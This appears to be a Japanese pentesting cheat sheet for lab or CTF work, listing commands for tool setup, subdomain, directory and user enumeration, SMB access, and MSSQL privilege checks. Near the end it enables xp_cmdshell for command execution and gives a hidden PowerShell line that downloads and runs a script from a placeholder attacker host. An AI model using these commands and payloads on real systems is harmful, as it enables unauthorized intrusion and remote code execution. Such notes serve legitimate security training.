 # tips

## 🔴nmap
## 🔴hosts設定

## 🔴仮想pipinstallが必要な場合

### 1. directory作成
sudo apt update

sudo apt install python3-venv python3-pip -y

mkdir -p ~/venv/tf

### 2. 仮想環境を作成（Python3のvenvモジュール使用）

python3 -m venv ~/venv/tf

### 3. 仮想環境を有効化

source ~/venv/tf/bin/activate

## 🔴Dockerが必要な場合

sudo apt update

sudo apt install -y docker.io

sudo systemctl start docker

sudo systemctl enable docker

sudo docker run hello-world

sudo usermod -aG docker $USER

newgrp docker

## 🔴pwntools

sudo apt update

sudo apt install -y python3-pip python3-dev libssl-dev libffi-dev build-essential

pip3 install --upgrade pip

pip3 install pwntools

python3 -c "from pwn import *; print('pwntools is installed')"



## 🔴サブドメイン列挙
### Sublist3r
git clone https://github.com/aboul3la/Sublist3r.git

cd Sublist3r

python3 sublist3r.py -d ドメイン -o hoge_subdomains.txt

### FFUF
ffuf -w -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://ドメイン -mc 200 -fs 0

## 🔴directory列挙

### dirb
dirb http://ドメイン/

### FFUF
ffuf -u http://ドメイン/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -t 50

### gobuster
gobuster dir -u http://ドメイン/ -w /usr/share/wordlists/dirb/common.txt

### dirsearch
dirsearch -u http://ドメイン/ -x 403,404,400  

## 🔴ユーザー列挙

ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -u "http://ドメイン/view.php?username=FUZZ&file=file.pdf" \
     -H "Cookie: PHPSESSID=xxx" \
     -fr "User not found."

## 🔴ファイルのパスを検索

### Windows

C:\> where /r C:\ user.txt

### linux

find /home -name "user.txt" 2>/dev/null

## 🔴SSHコマンド

ssh user@hoge.com

## 🔴SMB

### 列挙

crackmapexec smb xxx.xxx.xxx.xxx -u xxxuserxxx -p 'xxx' --users

smbmap -H xxx.xxx.xxx.xxx -u xxxuserxxx -p 'xxx'

### 一覧

smbclient -L //xxx.xxx.xxx.xxx/IPC -U xxxuserxxx --password=xxx

### アクセス 

smbclient //xxx.xxx.xxx.xxx/ADMIN$ -U xxxuserxxx --password=xxx

### ファイルアップロード

put exploit.zip exploit.zip

### ファイルダウンロード

get file.txt

## 🔴SQL
✅【1】現在のユーザーと権限の確認
SELECT SYSTEM_USER;

SELECT USER_NAME();

SELECT IS_SRVROLEMEMBER('sysadmin');  -- 1ならsysadmin権限あり

✅【2】データベース列挙
SELECT name FROM master..sysdatabases;

SELECT name FROM sys.databases;

✅【3】ログインユーザー列挙
SELECT name FROM master.sys.sql_logins;


✅【4】RCEが可能か調べる：xp_cmdshell の有効化
EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

EXEC sp_configure;  -- 'xp_cmdshell' の行を確認

✅【5】xp_cmdshell を有効化（許可されていれば）
EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

✅【6】OSコマンド実行（RCE）
EXEC xp_cmdshell 'whoami';

✅【7】リバースシェル投下例（ネットワークが許せば）
EXEC xp_cmdshell 'powershell -NoP -w hidden -c "IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKERIP/shell.ps1'')"';


## 🔴tools

### impacket

git clone https://github.com/fortra/impacket.git

sudo python3 setup.py install

#### mssqlclient.py
MSSQL サーバ（TCP 1433）へログインして、SQL クエリを実行できるツール

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

